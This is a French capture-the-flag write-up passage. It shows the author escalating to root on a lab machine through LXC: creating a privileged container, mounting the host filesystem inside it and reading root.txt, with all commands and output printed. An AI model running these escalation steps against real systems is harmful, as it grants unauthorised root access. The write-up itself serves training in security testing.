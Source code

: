 Je ne connais pas bien LXC mais c'est comme du Docker mis à part que certains éléments de langage changent :  

```plain
tommy@chattykathy:~$ sudo /snap/bin/lxc image list 
+---------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+ 
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          | ARCHITECTURE |   TYPE    |  SIZE  |         UPLOAD DATE          | 
+---------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+ 
| myimage | cd73881adaac | no     | alpine v3.13 (20210218_01:39) | x86_64       | CONTAINER | 3.11MB | Jan 25, 2022 at 3:35pm (UTC) | 
+---------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+

tommy@chattykathy:~$ sudo /snap/bin/lxc list 
+-------------+---------+----------------------+-----------------------------------------------+-----------+-----------+ 
|    NAME     |  STATE  |         IPV4         |                     IPV6                      |   TYPE    | SNAPSHOTS | 
+-------------+---------+----------------------+-----------------------------------------------+-----------+-----------+ 
| mycontainer | RUNNING | 10.23.181.147 (eth0) | fd42:3118:9576:fa6d:216:3eff:fe96:fade (eth0) | CONTAINER | 0         | 
+-------------+---------+----------------------+-----------------------------------------------+-----------+-----------+
```

Je suppose que l'exploitation est du même type à savoir monter la racine de l'hôte comme volume dans le container. En fouillant sur mon site je redécouvre que j'avais déjà exploité ça sur [le CTF Aloha de Wizard Labs](http://devloop.users.sourceforge.net/index.php?article212/solution-du-ctf-aloha-de-wizard-labs).  

Il aura fallut seulement quelques essais pour trouver le bon shell à demander à l'image Alpine :  

```plain
tommy@chattykathy:~$ sudo /snap/bin/lxc init myimage devloop -c security.privileged=true 
Creating devloop 
tommy@chattykathy:~$ sudo /snap/bin/lxc config device add devloop mydevice disk source=/ path=/hostfs recursive=true             
Device mydevice added to devloop 
tommy@chattykathy:~$ sudo /snap/bin/lxc start devloop 
tommy@chattykathy:~$ sudo /snap/bin/lxc exec devloop bash 
tommy@chattykathy:~$ sudo /snap/bin/lxc exec devloop /bin/bash 
tommy@chattykathy:~$ sudo /snap/bin/lxc exec devloop sh 
~ # id 
uid=0(root) gid=0(root) 
~ # cd /hostfs 
/hostfs # ls 
bin         cdrom       etc         lib         lib64       lost+found  mnt         proc        run         snap        swap.img    tmp         var 
boot        dev         home        lib32       libx32      media       opt         root        sbin        srv         sys         usr 
/hostfs # cd root 
/hostfs/root # ls 
root.txt  snap 
/hostfs/root # cat root.txt 

  ______ _                            _    _           _            
 / _____) |          _   _           | |  / )     _   | |           
| /     | | _   ____| |_| |_ _   _   | | / / ____| |_ | | _  _   _  
| |     | || \ / _  |  _)  _) | | |  | |< < / _  |  _)| || \| | | | 
| \_____| | | ( ( | | |_| |_| |_| |  | | \ ( ( | | |__| | | | |_| | 
 \______)_| |_|\_||_|\___)___)__  |  |_|  \_)_||_|\___)_| |_|\__  | 
                            (____/                          (____/  
```